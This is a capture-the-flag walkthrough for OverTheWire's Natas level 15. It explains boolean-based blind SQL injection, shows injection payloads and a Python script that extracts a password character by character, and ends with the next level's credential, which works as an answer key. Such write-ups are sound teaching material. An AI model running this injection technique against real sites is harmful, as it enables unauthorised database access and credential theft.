

# Natas Level 15 → Level 16

### Challenge

**URL: [http://natas15.natas.labs.overthewire.org/](https://www.google.com/url?sa=E&source=gmail&q=http://natas15.natas.labs.overthewire.org/)**

This level introduces **Boolean-based Blind SQL Injection**. Unlike previous levels, the application does not display any data from the database. It only returns one of two messages: "This user exists" or "This user doesn't exist." To extract the password, we must ask the database a series of True/False questions. The vulnerable query is:`$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";`

---

### Walkthrough

1. We can test the vulnerability by injecting logic into the `username` field:
   - Input: `natas16" AND "1"="1` ( Result: **This user exists.**)
   - Input: `natas16" AND "1"="2` (Result: **This user doesn't exist.**)

   This confirms we can use the `AND` operator to test conditions regarding the `password` column.

2. We use the `LIKE BINARY` operator to check if the password starts with a specific character. The `BINARY` keyword is crucial because it ensures the comparison is case-sensitive.
   - **Payload Example:** `natas16" AND password LIKE BINARY "a%`
   - If the result is "This user exists," the password starts with 'a'. If not, we try 'b', 'c', and so on.

3. Since the password is 32 characters long, performing this manually is inefficient. Below is a Python script to automate the process:

   ```
   import requests
   from string import ascii_letters, digits

   target = "http://natas15.natas.labs.overthewire.org/"
   auth = ("natas15", "AwWp0uS77S277Y89SmdStandardPass") # Replace with current password
   chars = ascii_letters + digits
   password = ""

   print("Extracting password...")

   for i in range(32):
       for char in chars:
           # Construct the injection payload
           payload = f'natas16" AND password LIKE BINARY "{password + char}%'
           r = requests.post(target, auth=auth, data={"username": payload})

           if "This user exists" in r.text:
               password += char
               print(f"Progress: {password}")
               break

   print(f"Final Password: {password}")
   ```

4. **Execution:**
   - Run the script using the credentials for Natas15.
   - The script will iterate through all possible characters (a-z, A-Z, 0-9).
   - Once 32 characters are found, you have the password for Natas16.
     

---

### Credentials Found

- **Username:** `natas16`
- **Password:** `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`
